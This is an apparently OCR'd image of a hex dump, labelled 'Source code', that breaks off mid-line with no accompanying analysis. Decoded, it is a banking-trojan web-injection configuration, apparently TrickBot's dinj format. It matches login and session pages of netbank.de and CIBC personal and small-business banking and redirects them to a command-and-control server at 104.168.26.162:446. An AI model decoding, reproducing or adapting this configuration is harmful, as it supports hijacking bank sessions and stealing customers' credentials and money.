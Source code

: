 3D 31 35 34 33 35 31 38 34 37 35 39 30 31 38 38
35 3C 2F 68 6C 3E 0A 3C 70 72 69 3E 31 30 30 3C
2F 70 72 69 3E 0A 3C 73 71 3E 32 3C 2F 73 71 3E
0A 3C 2F 64 69 6E 6A 3E 0A 3C 64 69 6E 6A 3E 0A
3C 6C 6D 3E 2A 62 61 6E 6B 69 6E 67 2E 6E 65 74
62 61 6E 6B 2E 64 65 2F 6E 62 6D 2F 6C 6F 67 69
6E 2F 2A 3C 2F 6C 6D 3E 0A 3C 68 6C 3E 68 74 74
70 73 3A 2F 2F 31 30 34 2E 31 36 38 2E 32 36 2E
31 36 32 3A 34 34 36 2F 72 65 73 70 6F 6E 73 65
2E 70 68 70 3F 73 3D 31 35 34 33 35 31 38 34 37
35 39 30 31 38 38 35 26 69 64 3D 32 4C 77 53 65
6F 67 67 73 74 64 4A 68 79 36 54 76 61 36 68 3C
2F 68 6C 3E 0A 3C 70 72 69 3E 31 30 30 3C 2F 70
72 69 3E 0A 3C 73 71 3E 32 3C 2F 73 71 3E 0A 3C
72 65 71 75 69 72 65 5F 68 65 61 64 65 72 3E 2A
74 65 78 74 2F 68 74 6D 6C 2A 3C 2F 72 65 71 75
69 72 65 5F 68 65 61 64 65 72 3E 0A 3C 2F 64 69
6E 6A 3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C 6D 3E 2A
62 61 6E 6B 69 6E 67 2E 6E 65 74 62 61 6E 6B 2E
64 65 2F 62 61 6E 6B 69 6E 67 2F 73 65 73 73 69
6F 6E 2A 3C 2F 6C 6D 3E 0A 3C 68 6C 3E 68 74 74
70 73 3A 2F 2F 31 30 34 2E 31 36 38 2E 32 36 2E
31 36 32 3A 34 34 36 2F 72 65 73 70 6F 6E 73 65
2E 70 68 70 3F 73 3D 31 35 34 33 35 31 38 34 37
35 39 30 31 38 38 35 26 69 64 3D 38 58 43 69 58
44 69 65 79 63 66 4E 4E 55 7A 70 6D 4B 42 78 3C
2F 68 6C 3E 0A 3C 70 72 69 3E 31 30 30 3C 2F 70
72 69 3E 0A 3C 73 71 3E 32 3C 2F 73 71 3E 0A 3C
72 65 71 75 69 72 65 5F 68 65 61 64 65 72 3E 2A
74 65 78 74 2F 68 74 6D 6C 2A 3C 2F 72 65 71 75
69 72 65 5F 68 65 61 64 65 72 3E 0A 3C 2F 64 69
6E 6A 3E 0A 3C 2F 69 67 72 6F 75 70 3E 0A 3C 69
67 72 6F 75 70 3E 0A 3C 64 69 6E 6A 3E 0A 3C 6C
6D 3E 2A 2F 72 63 72 64 2F 31 35 32 37 31 36 34
30 39 37 30 38 34 33 30 34 2A 3C 2F 6C 6D 3E 0A
3C 68 6C 3E 68 74 74 70 73 3A 2F 2F 31 30 34 2E
31 36 38 2E 32 36 2E 31 36 32 3A 34 34 36 2F 72
65 73 70 6F 6E 73 65 2F 72 63 72 64 2E 70 68 70
3F 73 3D 31 35 32 37 31 36 34 30 39 37 30 38 34
33 30 34 3C 2F 68 6C 3E 0A 3C 70 72 69 3E 31 30
30 3C 2F 70 72 69 3E 0A 3C 73 71 3E 32 3C 2F 73
71 3E 0A 3C 2F 64 69 6E 6A 3E 0A 3C 64 69 6E 6A
3E 0A 3C 6C 6D 3E 68 74 74 70 73 3A 2F 2F 77 77
77 2E 63 69 62 63 2E 63 6F 6D 2F 3F 3F 2F 73 6D
61 6C 6C 2D 62 75 73 69 6E 65 73 73 2A 3C 2F 6C
6D 3E 0A 3C 68 6C 3E 68 74 74 70 73 3A 2F 2F 31
30 34 2E 31 36 38 2E 32 36 2E 31 36 32 3A 34 34
36 2F 72 65 73 70 6F 6E 73 65 2E 70 68 70 3F 73
3D 31 35 32 37 31 36 34 30 39 37 30 38 34 33 30
34 26 69 64 3D 41 50 65 6B 47 37 46 47 72 33 4E
6C 32 58 69 74 4A 38 43 35 3C 2F 68 6C 3E 0A 3C
70 72 69 3E 31 30 30 3C 2F 70 72 69 3E 0A 3C 73
71 3E 32 3C 2F 73 71 3E 0A 3C 69 67 6E 6F 72 65
5F 6D 61 73 6B 3E 2A 2E 6A 73 2A 3C 2F 69 67 6E
6F 72 65 5F 6D 61 73 6B 3E 0A 3C 69 67 6E 6F 72
65 5F 6D 61 73 6B 3E 2A 2E 63 73 73 2A 3C 2F 69
67 6E 6F 72 65 5F 6D 61 73 6B 3E 0A 3C 72 65 71
75 69 72 65 5F 68 65 61 64 65 72 3E 2A 74 65 78
74 2F 68 74 6D 6C 2A 3C 2F 72 65 71 75 69 72 65
5F 68 65 61 64 65 72 3E 0A 3C 2F 64 69 6E 6A 3E
0A 3C 64 69 6E 6A 3E 0A 3C 6C 6D 3E 68 74 74 70
73 3A 2F 2F 77 77 77 2E 63 69 62 63 2E 63 6F 6D
2F 3F 3F 2F 70 65 72 73 6F 6E 61 6C 2D 62 61 6E
6B 69 6E 67 2A 3C 2F 6C 6D 3E 0A 3C 68 6C 3E 68